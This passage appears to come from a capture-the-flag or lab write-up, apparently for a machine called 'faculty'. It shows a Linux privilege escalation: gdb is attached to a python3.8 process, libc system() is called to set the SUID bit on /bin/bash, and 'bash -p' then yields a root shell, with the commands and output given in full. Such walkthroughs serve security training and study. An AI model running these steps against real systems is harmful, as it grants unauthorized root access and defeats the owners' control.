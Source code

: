 Verify and make system calls to set SUID permissions of `/bin/bash`:

```sh
(gdb) p system
$1 = {int (const char *)} 0x7f5c809f0290 <__libc_system>
(gdb) call system("chmod 4755 /bin/bash")
[Detaching after vfork from child process 9630]
$2 = 0
(gdb) quit
A debugging session is active.

        Inferior 1 [process 684] will be detached.

Quit anyway? (y or n) y
Detaching from program: /usr/bin/python3.8, process 684
[Inferior 1 (process 684) detached]
```

Get your root shell:

```sh
developer@faculty:/tmp$ bash -p
bash-5.0# id
uid=1001(developer) gid=1002(developer) euid=0(root) groups=1002(developer),1001(debug),1003(faculty)
```
